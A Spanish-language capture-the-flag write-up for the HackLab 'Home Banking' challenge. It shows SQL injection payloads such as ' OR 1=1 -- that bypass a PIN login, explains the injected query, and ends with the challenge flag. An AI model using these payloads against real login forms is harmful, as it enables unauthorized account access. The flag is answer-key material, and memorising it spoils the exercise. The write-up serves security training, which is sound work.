


# Desafío 3 - Home Banking

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** SQL Injection  

## Análisis

El campo de PIN es vulnerable a SQL Injection. Al cerrar la comilla simple se puede inyectar una condición que siempre sea verdadera, saltando la autenticación.

## Explotación

Se ingresa cualquier valor en el campo PIN (ej. `aa`), se intercepta la petición con Burp Suite y se modifica la línea del PIN por alguno de los siguientes payloads:

```
txtPin=' OR (SELECT 1 FROM usuarios LIMIT 1) -- &btnIngresar=Ingresar
```

```
txtPin=' OR (1=1) -- &btnIngresar=Ingresar
```

**Explicación:**
- La comilla simple `'` cierra la comilla que abre la base de datos.
- `OR (1=1)` agrega una condición que siempre se cumple.
- `--` comenta el resto de la consulta, anulando cualquier validación adicional.

El backend construye una consulta del tipo (forma típica e insegura):

```sql
SELECT * FROM cuentas
WHERE pin = '<valor_del_txtPin>' AND activo = 1;
```

Al enviar `txtPin=' OR 1=1 --`, la comilla cierra la cadena literal que abrió la aplicación y el resto queda así:

```sql
SELECT * FROM cuentas
WHERE pin = '' OR 1=1 -- ' AND activo = 1;
```

Todo lo que sigue a `--` es un comentario, por lo que la cláusula efectiva es `WHERE pin = '' OR 1=1`. Como `1=1` es siempre verdadero, la consulta devuelve filas y la aplicación interpreta que el PIN es correcto.






## Flag

```
bf58371373e52613ae270d5acf832bad
```
